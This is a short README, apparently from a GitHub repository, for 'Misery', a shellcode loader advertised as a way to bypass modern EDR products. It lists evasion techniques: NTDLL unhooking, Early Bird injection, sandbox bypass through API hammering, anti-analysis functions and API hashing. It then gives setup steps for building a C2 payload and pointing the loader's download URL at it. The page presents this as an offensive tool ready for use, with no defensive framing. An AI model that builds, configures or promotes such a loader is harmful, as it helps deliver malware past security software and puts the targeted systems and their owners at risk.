 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass(Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
✦•······················•✦•······················•✦ 

### 📁 Generate the payload with the c2 of your choice(*.bin)
### 🥷 If you want debug output, uncomment all printf lines
### 🏷️Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"



